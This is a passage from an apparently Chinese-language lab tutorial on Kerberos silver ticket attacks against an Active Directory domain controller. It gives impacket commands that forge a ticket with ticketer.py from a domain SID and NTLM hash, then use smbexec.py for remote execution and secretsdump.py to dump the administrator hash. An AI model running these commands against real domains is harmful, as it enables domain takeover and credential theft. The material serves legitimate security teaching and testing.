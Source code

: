 ![截图](8106965ac713bf33a5e3af84894a0132.png)

现在我们需要利用这些信息来进行白银票据传递攻击了。能进行白银票据传递攻击的工具有很多，这里只介绍使用 impacket、mimikatz 和 CobaltStrike 来进行白银票据传递攻击。

实验环境如下：

- 域控系统版本：Windows Server 2012R2
- 域控主机名：AD01 
- 域控 ip：10.211.55.4

### 1.使用 impacket 进行攻击

我们可以使用 impacket 下的 ticketer.py 脚本来离线生成白银票据，然后将票据导入内存中，即可使用 secretsdump.py、smbexec.py 等脚本进行后利用。命令如下：

```
#生成白银票据
python3 ticketer.py -domain-sid S-1-5-21-1313979556-3624129433-4055459191 -nthash d5d05db9b06988c17f903ef4847d9367 -spn cifs/AD01.xie.com -domain xie.com administrator

#导入票据
export KRB5CCNAME=administrator.ccache

#访问域控 AD01
python3 smbexec.py -no-pass -k administrator@AD01.xie.com -dc-ip 10.211.55.4

#导出 administrator 用户的哈希
python3 secretsdump.py -k -no-pass administrator@AD01.xie.com -dc-ip 10.211.55. 4 -just-dc-user administrator
```
